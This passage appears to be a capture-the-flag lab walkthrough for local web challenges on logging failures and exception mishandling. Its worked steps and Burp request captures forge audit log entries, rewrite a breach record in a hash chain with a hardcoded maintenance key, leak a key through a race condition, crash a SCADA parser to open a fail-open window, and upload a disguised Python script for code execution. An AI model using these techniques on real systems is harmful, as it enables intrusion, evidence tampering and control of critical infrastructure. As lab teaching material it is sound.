

3. Open `/compliance/status` in a new tab to copy the current clearance token: `d41d8cd98f00b204e9800998ecf8427e`.
4. In the **Memo** box on `/transfer`, inject a newline followed by the forged audit record:
   `Payment for services\n[2026-09-12 12:00:00] [AUDIT_OVERRIDE] CLEARANCE_TOKEN=d41d8cd98f00b204e9800998ecf8427e STATUS=CERTIFIED`
5. Click **`[Transfer Funds]`**.

### 3. Burp Suite Repeater Wire Capture


```http
POST /transfer HTTP/1.1
Host: 127.0.0.1:6026
Content-Type: application/x-www-form-urlencoded
Content-Length: 148

recipient=CHASE_99182&amount=100.00&memo=Payment%0D%0A[2026-09-12+12:00:00]+[AUDIT_OVERRIDE]+CLEARANCE_TOKEN=d41d8cd98f00b204e9800998ecf8427e+STATUS=CERTIFIED
```
6. Click **`[Treasury Vault]`** (`/vault/treasury`). The compliance daemon validates the forged log entry and displays the flag:
   `RTSA{a09-medium_47cba001e912}`.

---

## 9. A09 Hard: Titan Defense — Cryptographic Audit Hash-Chain Tampering
* **Identifier:** `a09-hard` | **Port:** `6027` | **Difficulty:** Hard (Insanely Hard)

### 1. The Pentester's Instinct
* **Initial Observation:** Titan Defense protects Special Access Program vaults with an immutable cryptographic ledger (`/audit/ledger`). Accessing `/vault/classified` appends an unauthorized breach event, causing the Sentinel to lock down the facility.
* **The Instinct:** How is the audit ledger maintained? Inspecting client JavaScript (`titan_audit.js`) reveals maintenance endpoints (`POST /api/v1/audit/tamper-block` and `POST /api/v1/audit/recompute-chain`) protected by static key `TITAN_SEC_MAINT_2026`. By rewriting the breach event to a diagnostic ping and re-sealing the SHA-256 chain, the breach evidence is erased.

### 2. Website UI Screenshot & "Where to Click"
1. Navigate to **`http://127.0.0.1:6027/audit/ledger`**.
2. Inspect the live cryptographic hash-chain ledger displaying block indexes, SHA-256 hashes, and previous block digests:



3. In the menu, click **`[SAP Classified Vault]`** (`/vault/classified`). The system triggers a lockdown and records Block #3 as `UNAUTHORIZED_BREACH_DETECTED`.
4. In Burp Suite, submit:
```http
POST /api/v1/audit/tamper-block HTTP/1.1
Host: 127.0.0.1:6027
Content-Type: application/json
X-Maintenance-Token: TITAN_SEC_MAINT_2026

{"block_index": 3, "event": "ROUTINE_DIAGNOSTIC_PING"}
```
5. Re-seal the hash chain:
```http
POST /api/v1/audit/recompute-chain HTTP/1.1
Host: 127.0.0.1:6027
X-Maintenance-Token: TITAN_SEC_MAINT_2026
```
6. Revisit `/vault/classified`. The Sentinel reports the audit chain intact with zero breach records, releasing the flag:
   `RTSA{a09-hard_f10a8c43bb09}`.

---

# Category A10: Mishandling of Exceptional Conditions

---

## 10. A10 Easy: QuantEdge Capital — Concurrency Dirty-Read Memory Reconstruction
* **Identifier:** `a10-easy` | **Port:** `6028` | **Difficulty:** Easy (Hard Calibration)

### 1. The Pentester's Instinct
* **Initial Observation:** QuantEdge Capital operates an institutional risk matrix calculation engine (`/portfolio`).
* **The Instinct:** The API accepts a nested JSON object `matrix_config.worker_slice_ref`. Single requests return HTTP 200 without leaks. In asynchronous calculation workers, shared mutable state without synchronization locks creates race conditions. When two requests hit the thread with conflicting slice references simultaneously, a dirty-read exception dumps 8-byte frame slices into the unhandled exception stack trace.

### 2. Website UI Screenshot & "Where to Click"
1. Browse to **`http://127.0.0.1:6028/portfolio`**.
2. Notice the calculation form with **Portfolio Assets**, **Covariance Multiplier**, and the **Advanced Matrix Config (Worker Memory Subsystem)**:



3. Sending two requests concurrently with conflicting `worker_slice_ref` values (`0x00` and `0x99`) triggers an unhandled `WorkerMemoryCollisionException`.

### 3. Burp Suite Repeater Wire Capture


```http
POST /api/v1/matrix/optimize HTTP/1.1
Host: 127.0.0.1:6028
Content-Type: application/json

{
  "matrix_config": {
    "worker_slice_ref": "0x00"
  }
}
```
```http
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: application/json

{
  "error": "WorkerMemoryCollisionException",
  "stack_trace": "--- Unhandled Thread Frame Register Slice [Offset +0x00, Len 8 bytes] ---\n00000000:  51 45 5f 4b 45 59 7b 39   |QE_KEY{9|\nINTERNAL_ENDPOINT: /api/v1/internal/confidential-vault"
}
```
4. **Key Reconstruction & Flag Recovery:**
   Collide offsets `0x00`, `0x08`, `0x10`, and `0x18` to assemble `QE_KEY{9f81_b3c4_771a_d901_f5c2}`.
   Query `/api/v1/internal/confidential-vault?token=QE_KEY{9f81_b3c4_771a_d901_f5c2}` to extract the flag:
   `RTSA{a10-easy_9c013745e5b1af5e586803ab}`.

---

## 11. A10 Medium: Synapse SCADA — Telemetry Parser Exception DoS & Fail-Open Bypass
* **Identifier:** `a10-medium` | **Port:** `6029` | **Difficulty:** Medium (Very Difficult)

### 1. The Pentester's Instinct
* **Initial Observation:** High-voltage substation controls are protected behind an automated safety interlock at `/system/safety-interlock`.
* **The Instinct:** Industrial SCADA designs frequently prioritize physical equipment safety over software access control. If the telemetry processing daemon crashes, does the system enter a fail-closed or fail-open state?
* **Reviewing Safety Interlocks:** The specification reveals:
  > *"To prevent power grid blackout in the event of telemetry crashes, the supervisor enters a 60-second Fail-Safe Emergency Override mode. During this override window, all interlocks disengage."*

### 2. Website UI Screenshot & "Where to Click"
1. Browse to **`http://127.0.0.1:6029/system/safety-interlock`**.
2. Review the live telemetry supervisor status and automated interlock indicators:



3. Send malformed non-numeric harmonics to `/grid/telemetry` to raise an unhandled `TypeError`:
```http
POST /grid/telemetry HTTP/1.1
Host: 127.0.0.1:6029
Content-Type: application/json

{"harmonics": [1.0, 2.0, "CRASH_SUPERVISOR"]}
```
4. The server returns HTTP 500: `"fail_safe_override": "ACTIVE", "remaining_seconds": 60`.
5. Click **`[Emergency Core Override]`** (`/core/override`) before the 60-second window expires to retrieve the flag:
   `RTSA{a10-medium_ee4102ba7711}`.

---

## 12. A10 Hard: OmniPress Media — File Upload Validation Bypass via Exception Mishandling to RCE
* **Identifier:** `a10-hard` | **Port:** `6030` | **Difficulty:** Hard (Insanely Hard)

### 1. The Pentester's Instinct
* **Initial Observation:** OmniPress Media Suite ingests editorial assets via a two-stage pipeline at `/media/upload`.
* **The Instinct:** In multi-stage file verification pipelines, what happens if Stage 1 (Header verification) throws an unhandled or poorly handled exception? Does the application abort the transaction, or does it catch the exception, classify the file as legacy unformatted data, and skip Stage 2 (Malware scanning)?
* **Exploiting the Exception:** Uploading a Python script with a corrupted PNG header (`\x89PNG\r\n\x1a\n` missing `IHDR`) triggers `ImageHeaderError`. The exception handler catches it, skips malware scanning, and stages the file in `static/scripts/shell.py`.

### 2. Website UI Screenshot & "Where to Click"
1. Browse to **`http://127.0.0.1:6030/media/upload`**.
2. The browser displays the editorial asset upload portal:



3. Prepare `shell.py` with corrupted PNG header:
   ```python
   \x89PNG\r\n\x1a\n
   import os
   open('static/loot.txt', 'w').write(open('/flag.txt').read() if os.path.exists('/flag.txt') else open('flag.txt').read())
   ```

### 3. Burp Suite Repeater Wire Capture


```http
POST /articles/upload-asset HTTP/1.1
Host: 127.0.0.1:6030
Content-Type: multipart/form-data; boundary=---------------------------99182374182
Content-Length: 320

-----------------------------99182374182
Content-Disposition: form-data; name="file"; filename="shell.py"
Content-Type: image/png

\x89PNG\r\n\x1a\n
import os
open('static/loot.txt', 'w').write(open('/flag.txt').read() if os.path.exists('/flag.txt') else open('flag.txt').read())
-----------------------------99182374182--
```
4. Trigger execution via `POST /editorial/run-automation` with `script=shell.py`.
5. Retrieve the flag from `http://127.0.0.1:6030/static/loot.txt`:
   `RTSA{a10-hard_c90187aa44bc}`.
